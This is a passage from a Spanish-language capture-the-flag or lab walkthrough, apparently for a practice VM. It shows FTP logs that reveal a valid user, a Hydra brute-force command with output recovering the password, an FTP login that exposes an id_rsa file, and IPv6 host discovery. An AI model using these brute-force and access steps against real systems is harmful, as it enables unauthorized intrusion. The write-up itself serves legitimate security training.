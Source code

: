 ```
[I 2021-09-28 18:44:09] 192.168.1.83:49278-[] USER 'Exploiter' failed login.
[I 2021-09-28 18:44:09] 192.168.1.83:49268-[] USER 'tasiyanci' failed login.
[I 2021-09-28 18:44:09] 192.168.1.83:49274-[] USER 'luken' failed login.
[I 2021-09-28 18:44:09] 192.168.1.83:49270-[] USER 'ch4rm' failed login.
[I 2021-09-28 18:44:09] 192.168.1.83:49282-[] FTP session closed (disconnect).
[I 2021-09-28 18:44:09] 192.168.1.83:49280-[admin_ftp] USER 'admin_ftp' logged in.
[I 2021-09-28 18:44:09] 192.168.1.83:49280-[admin_ftp] FTP session closed (disconnect).
[I 2021-09-28 18:44:12] 192.168.1.83:49272-[] FTP session closed (disconnect).
```

Vemos informacion bastante interesante, entre ello vemos que hay un usuario que consiguo iniciar sesion de forma exitosa llamado `admin_ftp` por lo que ya tenemos un usuario detectado.

Vamos a probar a realizar un ataque de fuerza bruta por `FTP` con dicho usuario.

### Hydra

```shell
hydra -l admin_ftp -P <WORDLIST> ftp://<IP> -s 65535 -t 64 -I
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-16 13:56:09
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ftp://192.168.5.81:65535/
[65535][ftp] host: 192.168.5.81   login: admin_ftp   password: cowboy
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-08-16 13:57:09
```

Veremos que hemos encontrado las credenciales de forma correcta, por lo que vamos a iniciar sesion en dicho servidor.

```shell
ftp admin_ftp@<IP> -p 65535
```

Metemos como contraseña `cowboy` y veremos que estaremos dentro.

Si listamos la carpeta `share` que vemos dentro del servidor, veremos los archivos `id_rsa` y `note` que hemos visto antes en la carpeta `/opt`, pero seguimos sin tener el `SSH`, vamos a enumerar los puertos por su `IPv6` a lo mejor esta filtrado solamente pro ese protocolo.

```shell
ping6 -c2 -n -I eth0 ff02::1
```

Info:

```
ping6: Warning: IPv6 link-local address on ICMP datagram socket may require ifname or scope-id => use: address%<ifname|scope-id>
ping6: Warning: source address might be selected on device other than: eth0
PING ff02::1 (ff02::1) from :: eth0: 56 data bytes
64 bytes from fe80::741f:8571:f9f5:50c3%eth0: icmp_seq=1 ttl=64 time=2.29 ms
64 bytes from fe80::a00:27ff:feaa:225b%eth0: icmp_seq=1 ttl=64 time=3.94 ms
64 bytes from fe80::741f:8571:f9f5:50c3%eth0: icmp_seq=2 ttl=64 time=0.049 ms

--- ff02::1 ping statistics ---
2 packets transmitted, 2 received, +1 duplicates, 0% packet loss, time 1002ms
rtt min/avg/max/mdev = 0.049/2.091/3.939/1.594 ms
```
